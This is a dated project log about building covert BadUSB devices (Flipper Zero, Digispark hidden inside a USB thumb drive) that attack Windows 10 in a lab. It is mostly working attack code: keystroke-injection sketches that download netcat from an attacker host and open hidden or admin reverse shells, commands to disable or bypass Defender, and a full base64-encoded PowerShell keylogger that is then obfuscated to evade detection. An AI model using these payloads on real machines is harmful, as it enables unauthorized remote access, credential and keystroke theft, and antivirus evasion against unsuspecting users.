








### 19.9.2023:
Demo for Reverse Shell done.   
[Demo](../../payloads/revshell_demo)   
[Demo in action](https://youtu.be/h5MMKu6TMxg)   

---
### 26.9.2023

Today i started to figure out a way to get a reverse shell in Windows 10, without user interaction.

**Sources i used for this experiment:**   

**Powershell/Windows Reverse Shells:**   
https://www.hackingarticles.in/powershell-for-pentester-windows-reverse-shell/  
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows  
https://github.com/martinsohn/PowerShell-reverse-shell  
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell  

**Downloading files with Powershell:**   
https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl  

**Rubber Ducky scripts:**   
https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac  

**BadUSB (and reverse shell) using Flipper Zero:**   
https://hackernoon.com/how-to-get-a-reverse-shell-on-macos-using-a-flipper-zero-as-a-badusb  
https://github.com/UNC0V3R3D/Flipper_Zero-BadUsb/blob/main/BadUsb-Collection/Windows_Badusb/FUN/FakeBluescreen/FakeBluescreen.txt  

Used Flipper Zero BadUSB, as the Digispark havent arrived yet, and the code itself should be compatible, or atleast easily converted to work with Digispark.   

Testing Setup:
Virtual Machines:
- Kali Linux
- Windows 10
Both are assigned to same internal network, for testing purposes.
Windows running with default protection settings On.

Flipper Zero, passthrough from Host to virtual Windows 10 machine.

Testing:   
A simplest example, combined from several other ready made scripts:
```bash
REM Description: BadUSB Reverse Shell
DELAY 500
GUI r
DELAY 400
STRING cmd
ENTER
DELAY 400
STRING powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.66.2/powercat.ps1');powercat -c 192.168.66.2 -p 9001 -e cmd"
DELAY 400
ENTER
```

Need webserver (serving the powercat.ps1 script)   

Example from attacker machine:   
```bash
┌──(kali🥦kali)-[~/testing]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ..
```

And listener, in the attacker machine (where the shell will be opened):   
```bash
┌──(kali🥦kali)-[~]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
```

This works, BUT Windows - Virus Protection blocks it.

Temporary resolution:   
```bash
REM Description: BadUSB Reverse Shell
DELAY 500
GUI r
DELAY 400
STRING powershell
ENTER
DELAY 400
STRING Invoke-WebRequest -OutFile nc64.exe -Uri http://192.168.66.2/nc64.exe
DELAY 400
ENTER
DELAY 400
GUI r
DELAY 400
STRING cmd
ENTER
DELAY 400
STRING start /min nc64.exe 192.168.66.2 9001 -e powershell
DELAY 400
ENTER
```

So the attacker serves the nc64.exe (netcat).   
Victim downloads it, and while running it, it calls to the attacker and opens an interactive shell, all automatically when payload executed.

**Test successfull!**

TODO:
- Close Powershell.
- Hide cmd

= Run everything in the background   

[Demo in action:](https://youtu.be/1kqqIdBoKr0?si=59A7y56YvNoeQ5JB)

---
### 29.9.2023

So the Digisparks arrived!    
Lets get ready to rumbubummbbbmububleleelelee!

**Setting up the environment.**   
I follow this guide for Linux Mint, pretty strictly, as it had photos and stuff:   
https://startingelectronics.org/tutorials/arduino/digispark/digispark-linux-setup/

First thing to do was to get a Arduino IDE:

Im using:
```bash
~$ cat /etc/os-release 
PRETTY_NAME="Debian GNU/Linux 12 (bookworm)"
NAME="Debian GNU/Linux"
VERSION_ID="12"
VERSION="12 (bookworm)"
VERSION_CODENAME=bookworm
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
~$ uname -a 
Linux parasite 6.1.0-12-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.52-1 (2023-09-07) x86_64 GNU/Linux
~$ 
```

So i downloaded the Linux .zip from here:   
https://www.arduino.cc/en/software

After downloading and extracting the content, i threw the folder to my special place, and linked the executable `arduino-ide` from the folder to another folder included in PATH.   
(So its easy to run from everywhere)    

Digispark itself, was identified by system:
```bash
Bus 001 Device 110: ID 16d0:0753 MCS Digistump DigiSpark
```

Tackling few minor problems/issues when uploading stuff to Digispark:   
https://github.com/micronucleus/micronucleus/issues/170   
http://digistump.com/board/index.php?topic=106.0   
digistump.com/wiki/digispark/tutorials/linuxtroubleshooting   
http://digistump.com/board/index.php/topic,1834.msg13109.html#msg13109   

Had to also install:    
`libusb-dev`    

Needed udev rules:
```bash
┌──(sicki🥦parasite)-[~]
└─$ cat /etc/udev/rules.d/49-micronucleus.rules 
SUBSYSTEMS=="usb", ATTRS{idVendor}=="16d0", ATTRS{idProduct}=="0753", MODE:="0666"
KERNEL=="ttyACM*", ATTRS{idVendor}=="16d0", ATTRS{idProduct}=="0753", MODE:="0666", ENV{ID_MM_DEVICE_IGNORE}="1"   
```

Applied the rules:
```bash
┌──(sicki🥦parasite)-[~]
└─$ sudo udevadm control --reload-rules && sudo udevadm trigger

```

Build the micronucleus and copied it under arduino tools

```bash
~/Projects$ git clone https://github.com/micronucleus/micronucleus.git
~/Projects$ cd micronucleus/commandline/
~/Projects/micronucleus/commandline$ make
Building library: library/micronucleus_lib.c...
gcc  -Ilibrary -O -g -D LINUX -c library/micronucleus_lib.c
Building library: library/littleWire_util.c...
gcc  -Ilibrary -O -g -D LINUX -c library/littleWire_util.c
Building command line tool: micronucleus...
gcc  -Ilibrary -O -g -D LINUX -o micronucleus micronucleus.c micronucleus_lib.o littleWire_util.o -static -L/usr/lib/x86_64-linux-gnu -lusb
rm -f *.o
~/Projects/micronucleus/commandline$ ls
49-micronucleus.rules  library   micronucleus    Readme
builds                 Makefile  micronucleus.c
~/Projects/micronucleus/commandline$ cp micronucleus ~/.arduino15/packages/digistump/tools/micronucleus/2.0a4/
```

So now i had an environment ready for development.   


**Digispark stuff**

I started with a simple Hello World and uploaded it to Digispark:   



That one didnt quite work. Found from the cheatsheet, that the keystrokes must be put, from right to left. Also the enter button got "stuck" so had to escape it with "0"   

Fixed, uploaded, plug in/out:


**Worked like a charm**

So the Digispark, when plugged, goes in to some "programmable" mode, for X amount of seconds, and after that it goes in to "execute" mode.    
In that programmable mode, it looks like this:   
```bash
Bus 001 Device 059: ID 16d0:0753 MCS Digistump DigiSpark
```
So in order to upload, i had to first press upload in IDE, and then plug it in. And if not plugged out after upload, it executed the code.   
I searched that it uses the first seconds to load the bootloader and after that it executes whats uploaded.   

In execute mode, the ID changes:   
```bash
Bus 001 Device 060: ID 16c0:27db Van Ooijen Technische Informatica Keyboard
```

So, when wanting to program it in my Host, and executing the payloads in my virtual machine, i had to add the right device to my virtual machine's usb filters:


Easiest way to do this, if not wanting to manually input all the fields:   
Write a simple payload, with lots of delay.    
For example:   
```ino
#include "DigiKeyboard.h"

void setup() {

}

void loop() {

DigiKeyboard.delay(10000);

}
```
Upload and let it run.   
While its running the delay, go to virtual machine's USB settings and use the "Add filter with all the fields, set to default..."

As in the picture, there can be seen both:  
- Programming mode
- Execute mode   
And only the execute mode is captured by virtual machine.   
**Profit**.

**TODO:**
- Reverse shell script from BadUSB to Digispark

---
### 29.9.2023 - continuation
 
*Digispark to real test.*

I started by trying the [digiQuack by CedArctic](https://cedarctic.github.io/digiQuack/) which converts rubber ducky payloads to compatible with Digispark.

Original payload, used with FlipperZero previously, as it was confirmed as working.  

It ended up like this:
```ino
#include "DigiKeyboard.h"

void setup() {}

void loop() {
	DigiKeyboard.sendKeyStroke(0);
	// Description: BadUSB Reverse Shell
	DigiKeyboard.delay(500);
	DigiKeyboard.sendKeyStroke(0, MOD_GUI_LEFT,KEY_R);
	DigiKeyboard.delay(400);
	DigiKeyboard.print("powershell");
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	DigiKeyboard.delay(400);
	DigiKeyboard.print("Invoke-WebRequest -OutFile nc64.exe -Uri http://192.168.66.2/nc64.exe");
	DigiKeyboard.delay(400);
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	DigiKeyboard.delay(400);
	DigiKeyboard.sendKeyStroke(0, MOD_GUI_LEFT,KEY_R);
	DigiKeyboard.delay(400);
	DigiKeyboard.print("cmd");
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	DigiKeyboard.delay(400);
	DigiKeyboard.print("start /min nc64.exe 192.168.66.2 9001 -e powershell");
	DigiKeyboard.delay(400);
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
}
```

Tried it of course as it is, as a test...   
Ended up with few problems.
1. Win+R wasn't working
2. Digispark seems to use US keyboard layout
	- So when trying to run that in a machine that uses, in my case, Scandinavian layout, there's plenty of "wrong" characters.
3. Delays work little bit differently, then with BadUSB = Too fast.
	- Might be due to my(MS) crappy Virtual Machine - Windows 10

**Tackled them:**
1. A tip from the cheatsheet:   
*DigiKeyboard.sendKeyStroke(KEY_R , MOD_GUI_LEFT);  
Windows Run window shortcut (WinKey+ R)*

So it seemed the order needs to be "backwards"   
Changed it, and it worked.

2. Workaround for now, was to change the victim device KB layout to US.
3. Increased the delay  

Payload:
```ino
#include "DigiKeyboard.h"

void setup() {}

void loop() {
// Description: BadUSB Reverse Shell
DigiKeyboard.delay(5000);
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT);
DigiKeyboard.delay(1000);
DigiKeyboard.print("powershell");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(1000);
DigiKeyboard.print("Invoke-WebRequest -OutFile nc64.exe -Uri http://192.168.66.2/nc64.exe");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(2000);
DigiKeyboard.print("exit");
DigiKeyboard.delay(1000);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(1000);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT);
DigiKeyboard.delay(1000);
DigiKeyboard.print("cmd");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(1000);
DigiKeyboard.print("start /min nc64.exe 192.168.66.2 9001 -e powershell");
DigiKeyboard.delay(1000);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(2000);
DigiKeyboard.print("exit");
DigiKeyboard.delay(1000);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
exit(0);
}
```

Confirmed and working like should.

[Demo coming here]()

**Profit!**

**TODO:**
Figure out something for the Scandinavian KB layout.

To read and study:   
https://github.com/digistump/DigistumpArduino/issues/46   
https://github.com/ArminJo/DigistumpArduino/blob/982824d0f638a0c567a125ae43d4d5632f65e76f/digistump-avr/libraries/DigisparkKeyboard/keylayouts.h#L41   
https://digistump.com/board/index.php?topic=2289.0   
https://github.com/ArminJo/DigistumpArduino   
https://github.com/SpenceKonde/ATTinyCore   

---
### 01.10.2023
*Tackle the keymappings*

After a long search, debug test drive etc...

This is the "main" file:   
https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboard.h   
Found in my enviroment ( Linux - Debian 12 | Arduino IDE 2.2.1 | Digistump AVR Boards 1.6.7) at:   
```bash
~/.arduino15/packages/digistump/hardware/avr/1.6.7/libraries/DigisparkKeyboard/
```

Next:   
[Found a German layout. ](https://github.com/adnan-alhomssi/DigistumpArduinoDe) and the file itself:   
https://github.com/adnan-alhomssi/DigistumpArduinoDe/blob/master/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboardDe.h   

I took the mentioned file, and edited at least most of the keys, according to Scandinavian layout, and came out with this:   
[DigiKeyboardCustom.h](notes_res/DigiKeyboardCustom.h)   

Note, that file must be in, in my case atleast:   
```bash
~/.arduino15/packages/digistump/hardware/avr/1.6.7/libraries/DigisparkKeyboard/
```

Ran a few tests, while the final test, were the special characters that are tested:

```ino
#include <DigiKeyboardCustom.h>

void setup() {}

void loop() {

DigiKeyboard.delay(5000);
DigiKeyboardCustom.print("1234567890+");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(500);
DigiKeyboardCustom.print("!\"#%&/()=?");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(500);
DigiKeyboardCustom.print("@£${[]}");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(500);
DigiKeyboard.delay(500);
DigiKeyboardCustom.print("><|;:_,.-");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(500);
DigiKeyboardCustom.print("*");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(500);
DigiKeyboardCustom.print("~ ");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(500);
DigiKeyboardCustom.print("\'");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(500);
DigiKeyboardCustom.print("^ ");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.sendKeyStroke(0);
exit(0);
}
```

Came out like this, and its like its supposed to be!   
```
1234567890+
!"#%&/()=?
@${[]}
><|;:_,.-
*
~
'
^
```

**Note to the payload:**   
*Some characters needed to have backslash, for escaping!*
For example to print `'` it needs to be `\'`   

**Also NOTE!**
Not yet fully tested with the previous reverse shell payload!

---
### 07.10.2023

Started yesterday to figure out the Scandinavian characters....   
After several hours of printing character and debuging sh\*t, i finally managed to get the custom keyboard library to support å ö ä and all the other special characters in Finnish keyboard layout:    


**Profit!**

Final version:   
[DigiKeyboardFi](https://github.com/therealhalonen/DigiKeyboardFi)

Edited the Reverse Shell payload according to those new keyboard stuffs:   
[rev_shell_digispark.ino](../../payloads/revshell_digispark/revshell_digispark.ino)

---
### 08.10.2023
*Physical attacking device*    

Today i wanted to have the Digispark inside a USB thumb drive.   
I took a usb thumb drive, disassembled it and tested the fit...
It didnt fit:       



I marked the place, and carved the sides a bit:     


And now it fitted:   


Soldered a USB Male connector, which i took out from an old cable, to Digispark with matching the pins 1:1:   
   

Put it in place, and make it stick with a some hot glue:   
   

Put it all together, and as the sides had to be carved open, i stuck some tape to cover them, for now, until i find a better, stealth solution:   



Plugged it in:   


And working like a charm:   
```bash
┌──(sicki🥦parasite)-[~]
└─$ lsusb | grep 16 
Bus 001 Device 061: ID 16d0:0753 MCS Digistump DigiSpark

# After the bootloader mode
# -> 

┌──(sicki🥦parasite)-[~]
└─$ lsusb | grep 16
Bus 001 Device 062: ID 16c0:27db Van Ooijen Technische Informatica Keyboard
```

**Profit!**

---
### 10.10.2023

*Disabling security stuff from Windows, with Digispark:*

Using again and still:    
- Debian 12 Host
- Windows 10 virtualbox VM

Went pretty straight forward to search Powershell commands, as im not experienced with PS, at all...

https://www.windowscentral.com/how-disable-real-time-protection-microsoft-defender-antivirus

```powershell
Set-MpPreference -DisableRealtimeMonitoring $false
```

Lets see what happens:


Not working... Ok whatever...   

[https://wirediver.com/disable-windows-defender-in-powershell/](https://wirediver.com/disable-windows-defender-in-powershell/ "https://wirediver.com/disable-windows-defender-in-powershell/")

```powershell
PS C:\Users\antha> Get-MpComputerStatus | select IsTamperProtected

IsTamperProtected
-----------------
             True
```


https://support.microsoft.com/en-us/windows/prevent-changes-to-security-settings-with-tamper-protection-31d51aaa-645d-408e-6ce7-8d7f8e593f87

```bash
Set-MpPreference -DisableRealtimeMonitoring $true
```
This works if tampering protection is disabled, and running Powershell as Admin.

Searched quite alot of stuff...   
Some mentioned methods required regedit, reboots etc tinkering etc, so i decided to try Bypassing instead of Disabling.   

https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/defense-evasion/disable-defender

```powershell
Add-MpPreference -ExclusionPath "C:\Windows\Temp"
```


To check:
```powershell
Get-MpPreference | Select-Object -ExpandProperty ExclusionPath
```

**So far there has been no need to disable or circle around the Defender, so the previously mentioned methods will serve as notes. Coming back to this and continuing from here, when it becomes necessary, most likely later on.**

---
### 12.10.2023
*Improving the Reverse Shell payload*

As the original demo we did, was quite slow and after the results of the [ransomware payload improvements](https://github.com/therealhalonen/PhishSticks/blob/04ffbcb30b5a5cad4d38c54e4ceb975d5b421ff8/notes/rajala/notes.md#11102023) I decided to give the Reverse Shell a little bit improvement too.

Original:    
https://github.com/therealhalonen/PhishSticks/blob/master/payloads/revshell_digispark/revshell_digispark.ino   

To break it down:   
- It first opens the "Run"
- Types `powershell` end presses Enter
	- In/From Powershell, it downloaded the nc64.exe, from attacker to victim
	- Exits
- Opens "Run" again.
	- Types `cmd` and presses Enter
		- Starts the nc64.exe minimized = Calls the attacker.
Reverse Shell is opened, and the nc64.exe is/was showing in the quicklaunch bar or whatever it is in Windows, thing in the bottom.

I got an idea, as "everything is possible" mindset running, that i want to do it with only:
- Open "Run"
	- Run a oneliner while keeping everything hidden.

Sounds cool...

Well at this point we had already, as mentioned in the beginning, the randomware payload tested and running hidden, i edited the revshell payload, and tested it manually:

The oneliner:
```bash
powershell -w hidden -c "Invoke-WebRequest -OutFile $env:UserProfile/nc64.exe -Uri http://192.168.66.2/nc64.exe ; Start-Process \"$env:UserProfile/nc64.exe\" -ArgumentList '192.168.66.2', '9001', '-e', 'powershell' -NoNewWindow" 
```

Explanations:
```bash
-w hidden #Window mode hidden
-c # a command, and in this case, 2 commands, one after another is successfull
# Download the file to specific location
# Run the file from specific location
# No workdir needed here
- NoNewWindow # Doesnt open up a separate cmd window for nc64.exe execution. 
```

The command is short enough to fit the Windows Run, as there are some length limitations, noticed in previous individual testings:


Ran superfast and got a reverse shell:


Payload:    
[digispark_revshell_v2](https://github.com/therealhalonen/PhishSticks/blob/master/payloads/revshell_digispark/digispark_revshell_v2/digispark_revshell_v2.ino)   
*Another thing, to make it maybe more simple, is to make it download the nc64.exe from the web, instead of serving it from the attacker machine, but thats at this point, only something to think about, and why.*   

*That would be as easy as just changing the url to:*  
*https://github.com/int0x33/nc.exe/raw/master/nc64.exe*

*And possible shortening it with the help of some known services.*

*Credits to:*   
*https://github.com/int0x33*

**But now as it works as it should, theres no need to tinker it anymore.**

Another "topic" related and natural continuation here, as the whole project started as an *experimental thing*, is to take at least a quick look to privilege escalation.

*What ive learned the most, from the beginning to this point, is mostly about Windows and Powershell, as i have quite a long history in daily Linux usage.*

It seemed that the `-Verb -RunAs` will make the Powershell run with Admin privileges. Of course, as we are testing everything with Windows 10 and all security as default, it asks a confirmation.   
These could be quite easily, not bypassed, but "accepted" with the help of Digispark.  
**Problem comes, that it seems you cannot run `-Verb -RunAs` and `-NoNewWindow` together(?)**

Dirty workaround, to get reverse shell with admin privileges:   
[digispark_revshell_v2_5.ino](https://github.com/therealhalonen/PhishSticks/blob/master/payloads/revshell_digispark/digispark_revshell_v2_5/digispark_revshell_v2_5.ino)   
```bash
#include <DigiKeyboardFi.h>

void setup() {}

void loop() {

// Description: BadUSB Reverse Shell v2.5
DigiKeyboard.delay(1000);
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT);
DigiKeyboard.delay(500);
DigiKeyboardFi.print("powershell -w hidden -c \"Invoke-WebRequest -OutFile $env:UserProfile/nc64.exe -Uri http://192.168.66.2/nc64.exe ; Start-Process -FilePath $env:UserProfile/nc64.exe -ArgumentList '192.168.66.2', '9001', '-e', 'powershell' -Verb RunAs");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(3000);
DigiKeyboard.sendKeyStroke(43); // 43=TAB
DigiKeyboard.sendKeyStroke(43); // 43=TAB
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(1000);
DigiKeyboard.sendKeyStroke(KEY_M,MOD_GUI_LEFT);
DigiKeyboard.delay(500);
exit(0);
}
```

Outcome:   


Checking from attacker machine, if got Admin privileges for the session:


Explanation for checking command:   
https://superuser.com/questions/749243/detect-if-powershell-is-running-as-administrator   
With specific details:   
https://superuser.com/a/749259

Comparison to regular user session in Powershell:   


**BOOM!**

---
### 13.10.2023
*Vagrant*

I have been using a Windows 10 virtual machine, one that i have set up for a while now, for testing purposes:   

- Edition: Windows 10 Pro
- Version: 22H2
- OS build: 19045.3570

Everything (security wise) with default settings.
User has privileges to run as Administrator, with confirmation prompt of course.

I started to test a vagrant machine, recommended by [Miljonka](https://github.com/miljonka?tab=repositories)

Box:   
https://app.vagrantup.com/gusztavvargadr/boxes/windows-10   

- Edition: WIndows 10 Enterprise Evaluation
- Version: 22H2
- OS build: 19045.3324 (As is)
	- OS build: 19045.3570 (After running all updates)

As running it, i noticed that the UAC was disabled, but Defender, Security etc setting seemed to be ok according to defaults.

I made a Vagrantfile, to have everything automatically set up for testings:   
[Vagrantfile](notes_res/Vagrantfile)

Settings include:
- Assigns the device to my personal, virtual, internal network with static ip.
- Enables USB 3.0 controller and add filter for Digispark to have it automatically connected.
- Provisioning:
	- Changes keyboard language to Finnish
	- Enables UAC

After some test runs, all working like should.  

*This was partly outside the project scope, but makes things easier to maintain and setup, at least for testing phases.    
Most likely the final runs of the payloads, will be ran in specific fresh installation of Windows 10.*


### 24.10.2023
*Keylogger*

Next up is the keylogger, which most likely is the most complicated one to implement.
Things to consider:
- Writing the script or downloading it.
- Execution triggers Defender.
- What to do with the logged keys.

I started continuing to work with the Defender bypassing.

The keylogger powershell script, ready made, and working IF REALTIME PROTECTION IS DISABLED

Source:
https://gist.githubusercontent.com/dasgoll/7ca1c059dd3b3fbc7277/raw/e4e3a530589dac67ab6c4c2428ea90de93b86018/gistfile1.txt

Im doing these obfuscations in my attacker machine (Kali Linux) and serving them via python webserver and using the victim (Windows 10) to download them and run.

First i decided to go with the Base64 encoding:

Base64 Encoded script:
```bash
I3JlcXVpcmVzIC1WZXJzaW9uIDIKZnVuY3Rpb24gU3RhcnQtS2V5TG9nZ2VyKCRQYXRoPSIkZW52
OnRlbXBca2V5bG9nZ2VyLnR4dCIpIAp7CiAgIyBTaWduYXR1cmVzIGZvciBBUEkgQ2FsbHMKICAk
c2lnbmF0dXJlcyA9IEAnCltEbGxJbXBvcnQoInVzZXIzMi5kbGwiLCBDaGFyU2V0PUNoYXJTZXQu
QXV0bywgRXhhY3RTcGVsbGluZz10cnVlKV0gCnB1YmxpYyBzdGF0aWMgZXh0ZXJuIHNob3J0IEdl
dEFzeW5jS2V5U3RhdGUoaW50IHZpcnR1YWxLZXlDb2RlKTsgCltEbGxJbXBvcnQoInVzZXIzMi5k
bGwiLCBDaGFyU2V0PUNoYXJTZXQuQXV0byldCnB1YmxpYyBzdGF0aWMgZXh0ZXJuIGludCBHZXRL
ZXlib2FyZFN0YXRlKGJ5dGVbXSBrZXlzdGF0ZSk7CltEbGxJbXBvcnQoInVzZXIzMi5kbGwiLCBD
aGFyU2V0PUNoYXJTZXQuQXV0byldCnB1YmxpYyBzdGF0aWMgZXh0ZXJuIGludCBNYXBWaXJ0dWFs
S2V5KHVpbnQgdUNvZGUsIGludCB1TWFwVHlwZSk7CltEbGxJbXBvcnQoInVzZXIzMi5kbGwiLCBD
aGFyU2V0PUNoYXJTZXQuQXV0byldCnB1YmxpYyBzdGF0aWMgZXh0ZXJuIGludCBUb1VuaWNvZGUo
dWludCB3VmlydEtleSwgdWludCB3U2NhbkNvZGUsIGJ5dGVbXSBscGtleXN0YXRlLCBTeXN0ZW0u
VGV4dC5TdHJpbmdCdWlsZGVyIHB3c3pCdWZmLCBpbnQgY2NoQnVmZiwgdWludCB3RmxhZ3MpOwon
QAoKICAjIGxvYWQgc2lnbmF0dXJlcyBhbmQgbWFrZSBtZW1iZXJzIGF2YWlsYWJsZQogICRBUEkg
PSBBZGQtVHlwZSAtTWVtYmVyRGVmaW5pdGlvbiAkc2lnbmF0dXJlcyAtTmFtZSAnV2luMzInIC1O
YW1lc3BhY2UgQVBJIC1QYXNzVGhydQogICAgCiAgIyBjcmVhdGUgb3V0cHV0IGZpbGUKICAkbnVs
bCA9IE5ldy1JdGVtIC1QYXRoICRQYXRoIC1JdGVtVHlwZSBGaWxlIC1Gb3JjZQoKICB0cnkKICB7
CiAgICBXcml0ZS1Ib3N0ICdSZWNvcmRpbmcga2V5IHByZXNzZXMuIFByZXNzIENUUkwrQyB0byBz
ZWUgcmVzdWx0cy4nIC1Gb3JlZ3JvdW5kQ29sb3IgUmVkCgogICAgIyBjcmVhdGUgZW5kbGVzcyBs
b29wLiBXaGVuIHVzZXIgcHJlc3NlcyBDVFJMK0MsIGZpbmFsbHktYmxvY2sKICAgICMgZXhlY3V0
ZXMgYW5kIHNob3dzIHRoZSBjb2xsZWN0ZWQga2V5IHByZXNzZXMKICAgIHdoaWxlICgkdHJ1ZSkg
ewogICAgICBTdGFydC1TbGVlcCAtTWlsbGlzZWNvbmRzIDQwCiAgICAgIAogICAgICAjIHNjYW4g
YWxsIEFTQ0lJIGNvZGVzIGFib3ZlIDgKICAgICAgZm9yICgkYXNjaWkgPSA5OyAkYXNjaWkgLWxl
IDI1NDsgJGFzY2lpKyspIHsKICAgICAgICAjIGdldCBjdXJyZW50IGtleSBzdGF0ZQogICAgICAg
ICRzdGF0ZSA9ICRBUEk6OkdldEFzeW5jS2V5U3RhdGUoJGFzY2lpKQoKICAgICAgICAjIGlzIGtl
eSBwcmVzc2VkPwogICAgICAgIGlmICgkc3RhdGUgLWVxIC0zMjc2NykgewogICAgICAgICAgJG51
bGwgPSBbY29uc29sZV06OkNhcHNMb2NrCgogICAgICAgICAgIyB0cmFuc2xhdGUgc2NhbiBjb2Rl
IHRvIHJlYWwgY29kZQogICAgICAgICAgJHZpcnR1YWxLZXkgPSAkQVBJOjpNYXBWaXJ0dWFsS2V5
KCRhc2NpaSwgMykKCiAgICAgICAgICAjIGdldCBrZXlib2FyZCBzdGF0ZSBmb3IgdmlydHVhbCBr
ZXlzCiAgICAgICAgICAka2JzdGF0ZSA9IE5ldy1PYmplY3QgQnl0ZVtdIDI1NgogICAgICAgICAg
JGNoZWNra2JzdGF0ZSA9ICRBUEk6OkdldEtleWJvYXJkU3RhdGUoJGtic3RhdGUpCgogICAgICAg
ICAgIyBwcmVwYXJlIGEgU3RyaW5nQnVpbGRlciB0byByZWNlaXZlIGlucHV0IGtleQogICAgICAg
ICAgJG15Y2hhciA9IE5ldy1PYmplY3QgLVR5cGVOYW1lIFN5c3RlbS5UZXh0LlN0cmluZ0J1aWxk
ZXIKCiAgICAgICAgICAjIHRyYW5zbGF0ZSB2aXJ0dWFsIGtleQogICAgICAgICAgJHN1Y2Nlc3Mg
PSAkQVBJOjpUb1VuaWNvZGUoJGFzY2lpLCAkdmlydHVhbEtleSwgJGtic3RhdGUsICRteWNoYXIs
ICRteWNoYXIuQ2FwYWNpdHksIDApCgogICAgICAgICAgaWYgKCRzdWNjZXNzKSAKICAgICAgICAg
IHsKICAgICAgICAgICAgIyBhZGQga2V5IHRvIGxvZ2dlciBmaWxlCiAgICAgICAgICAgIFtTeXN0
ZW0uSU8uRmlsZV06OkFwcGVuZEFsbFRleHQoJFBhdGgsICRteWNoYXIsIFtTeXN0ZW0uVGV4dC5F
bmNvZGluZ106OlVuaWNvZGUpIAogICAgICAgICAgfQogICAgICAgIH0KICAgICAgfQogICAgfQog
IH0KICBmaW5hbGx5CiAgewogICAgIyBvcGVuIGxvZ2dlciBmaWxlIGluIE5vdGVwYWQKICAgIG5v
dGVwYWQgJFBhdGgKICB9Cn0KCiMgcmVjb3JkcyBhbGwga2V5IHByZXNzZXMgdW50aWwgc2NyaXB0
IGlzIGFib3J0ZWQgYnkgcHJlc3NpbmcgQ1RSTCtDCiMgd2lsbCB0aGVuIG9wZW4gdGhlIGZpbGUg
d2l0aCBjb2xsZWN0ZWQga2V5IGNvZGVzClN0YXJ0LUtleUxvZ2dlcgo=
```

Didnt work, got blocked.


What came to my mind, while reading here and there everywhere, that i first remove all the unneccessary comments and mentions of "key logging" from the script, and came up with this:   
[helper.ps1](notes_res/helper.ps1)

Also changed the function to "Start-Helper" instead of Key logger.

Also while studying the obfuscations, i bumped in to this:   
https://github.com/JoelGMSec/Invoke-Stealth    
And the guide/help:   
https://darkbyte.net/ofuscando-scripts-de-powershell-con-invoke-stealth/

I made a little testing lab thing to my Kali:


So:   
1. I used the Invoke-Stealth in powershell to obfuscate the `maltsu.ps1` with ReverseB64
2. `maltsu.ps1` obscuscated, so that it uses a variable, which is the encoded script and then it decodes that on the fly.
3. Webserver, serving the payload (`maltsu.ps1`)

Full obfuscated payload:
[maltsu.ps1](notes_res/maltsu.ps1)

Execution from Victim:   


**And Profit!**


1. Download the payload from attacker and execute it.
2. Go to a browser and type something.
3. In a Temp directory, a file named `help` is created
4. File contains the logged keys!


**Next up, is running everyhing when Digispark is plugged, as Stealth as possible!**